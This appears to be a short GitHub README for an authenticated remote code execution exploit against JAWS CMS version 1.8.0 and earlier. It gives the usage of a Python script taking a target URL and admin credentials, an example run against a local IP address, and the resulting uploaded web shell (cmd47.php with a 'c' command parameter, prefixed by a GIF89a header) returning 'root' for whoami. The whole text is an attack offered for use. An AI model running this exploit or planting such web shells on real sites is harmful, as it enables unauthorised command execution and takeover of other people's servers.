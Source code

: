 # Jaws-CMS-RCE
Authenticated RCE JAWS CMS &lt;=1.8.0


python jaws-rce.py
[+]Usage python jaws-rce.py http://victim.com/ admin admin




python jaws-rce.py http://192.168.1.98/jaws-master/jaws-master/ jawsadmin admin



Shell Location=== http://192.168.1.98/jaws-master/jaws-master/data/files/cmd47.php?c=whoami
GIF89a
root




